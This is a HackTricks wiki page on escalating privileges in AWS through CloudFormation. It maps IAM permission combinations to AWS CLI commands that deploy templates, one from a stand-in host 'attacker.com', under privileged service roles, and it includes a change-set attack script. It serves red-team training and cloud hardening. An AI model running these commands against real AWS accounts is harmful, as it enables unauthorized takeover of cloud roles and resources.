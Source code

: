 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

For more information about cloudformation check:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

An attacker with these permissions **can escalate privileges** by crafting a **CloudFormation stack** with a custom template, hosted on their server, to **execute actions under the permissions of a specified role:**

```bash
aws cloudformation create-stack --stack-name <stack-name> \
    --template-url http://attacker.com/attackers.template \
    --role-arn <arn-role>
```

In the following page you have an **exploitation example** with the additional permission **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potential Impact:** Privesc to the cloudformation service role specified.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In this case you can a**buse an existing cloudformation stack** to update it and escalate privileges as in the previous scenario:

```bash
aws cloudformation update-stack \
    --stack-name privesc \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
    --capabilities CAPABILITY_IAM \
    --region eu-west-1 
```

The `cloudformation:SetStackPolicy` permission can be used to **give yourself `UpdateStack` permission** over a stack and perform the attack.

**Potential Impact:** Privesc to the cloudformation service role specified.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

If you have this permission but **no `iam:PassRole`** you can still **update the stacks** used and abuse the **IAM Roles they have already attached**. Check the previous section for exploit example (just don't indicate any role in the update).

The `cloudformation:SetStackPolicy` permission can be used to **give yourself `UpdateStack` permission** over a stack and perform the attack.

**Potential Impact:** Privesc to the cloudformation service role already attached.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

An attacker with permissions to **pass a role and create & execute a ChangeSet** can **create/update a new cloudformation stack abuse the cloudformation service roles** just like with the CreateStack or UpdateStack.

The following exploit is a **variation of the**[ **CreateStack one**](./#iam-passrole-cloudformation-createstack) using the **ChangeSet permissions** to create a stack.

```bash
aws cloudformation create-change-set \
    --stack-name privesc \
    --change-set-name privesc \
    --change-set-type CREATE \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::947247140022:role/CloudFormationAdmin \
    --capabilities CAPABILITY_IAM \
    --region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
    --change-set-name privesc \
    --stack-name privesc \
    --region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
    --stack-name privesc \
    --region eu-west-1
```

The `cloudformation:SetStackPolicy` permission can be used to **give yourself `ChangeSet` permissions** over a stack and perform the attack.

**Potential Impact:** Privesc to cloudformation service roles.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

This is like the previous method without passing **IAM roles**, so you can just **abuse already attached ones**, just modify the parameter:

```
--change-set-type UPDATE
```

**Potential Impact:** Privesc to the cloudformation service role already attached.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

An attacker could abuse these permissions to create/update StackSets to abuse arbitrary cloudformation roles.

**Potential Impact:** Privesc to cloudformation service roles.

### `cloudformation:UpdateStackSet`

An attacker could abuse this permission without the passRole permission to update StackSets to abuse the attached cloudformation roles.

**Potential Impact:** Privesc to the attached cloudformation roles.

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
